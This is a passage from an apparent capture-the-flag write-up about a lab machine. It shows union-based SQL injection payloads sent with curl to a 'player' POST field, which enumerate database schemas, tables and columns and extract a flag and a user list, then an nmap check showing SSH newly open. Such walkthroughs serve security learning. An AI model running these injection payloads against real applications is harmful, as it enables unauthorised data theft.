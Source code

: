     
    
    oxdf@parrot$ curl -s -X POST http://10.10.11.128 -d "player=' union select group_concat(SCHEMA_NAME) from INFORMATION_SCHEMA.schemata;-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
    mysql,information_schema,performance_schema,sys,november
    

The `november` DB has two tables:

    
    
    oxdf@parrot$ curl -s -X POST http://10.10.11.128 -d "player=' union select group_concat(table_name) from INFORMATION_SCHEMA.tables where table_schema='november';-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
    flag,players
    

Interestingly, each table only has one column:

    
    
    oxdf@parrot$ curl -s -X POST http://10.10.11.128 -d "player=' union select group_concat(table_name, ':', column_name) from INFORMATION_SCHEMA.columns where table_schema='november';-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
    flag:one,players:player
    

I can grab the flag:

    
    
    oxdf@parrot$ curl -s -X POST http://10.10.11.128 -d "player=' union select group_concat(one) from flag;-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
    UHC{F1rst_5tep_2_Qualify}
    

And also the list of users:

    
    
    oxdf@parrot$ curl -s -X POST http://10.10.11.128 -d "player=' union select group_concat(player) from players;-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
    ippsec,celesian,big0us,luska,tinyboy
    

#### Enter Flag

With the flag, I can enter it on `challenge.php`:

![image-20211119161426691](https://0xdfimages.gitlab.io/img/image-20211119161426691.png)

Where only 80 was open on initial `nmap`, now 22 is open as well:

    
    
    oxdf@parrot$ nmap -p 22 10.10.11.128
    Starting Nmap 7.80 ( https://nmap.org ) at 2021-11-19 16:14 EST
    Nmap scan report for 10.10.11.128
    Host is up (0.089s latency).
    
    PORT   STATE SERVICE
    22/tcp open  ssh
    